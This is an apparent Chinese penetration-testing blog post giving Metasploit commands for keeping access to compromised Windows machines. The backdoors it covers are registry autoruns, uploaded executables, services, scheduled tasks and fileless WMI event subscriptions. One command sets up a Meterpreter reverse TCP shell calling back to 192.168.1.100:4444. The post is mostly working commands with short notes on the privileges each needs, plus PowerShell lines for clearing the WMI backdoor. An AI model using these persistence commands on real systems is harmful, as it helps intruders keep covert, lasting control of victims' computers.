 ```yaml
---
title: "Metasploit 常用维权方式"
date: 2019-07-22T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ["metasploit",'persistence']
categories: ["内网渗透"]

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


metasploit 后渗透常用的维持权限的方式.

<!--more-->

## 注册表

上传 vbs 开机自启 (被弃用).

```
run persistence -r 192.168.1.100 -p 4444 -i 5 -P windows/x64/meterpreter/reverse_tcp -X
```

上传 exe 开机自启 (替代 vbs 方式).

```
run post/windows/manage/persistence_exe REXEPATH=/home/exp10it/msf.exe
```

添加 powershell 开机自启.

```
use exploit/windows/local/registry_persistence
```

可指定 `STARTUP`, 但注意要在会话是 Administrator 权限的时候运行, System 权限需先降权, 否则无效.

## 服务

仅支持 x86 payload, 可通过 `exploit/windows/local/payload_inject` 反弹成 64 位的会话.

```
use exploit/windows/local/persistence_service
```

## 计划任务

上传 exe 执行, 需要 system 权限.
```
run scheduleme -e /home/exp10it/msf.exe -H 12
```

中途会出现 ` Failed to create scheduled task!!`, 但实际上已经添加成功.

## WMI

通过 powershell 方式执行, 无文件后门, 支持 5 种触发方式.

```
use exploit/windows/local/wmi_persistence
```

注意切换触发方式时要先清除以前的后门.

```
Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='Updater'" | Remove-WmiObject -Verbose
Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer -Filter "Name='Updater'" | Remove-WmiObject -Verbose
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%Updater%'" | Remove-WmiObject -Verbose
``` 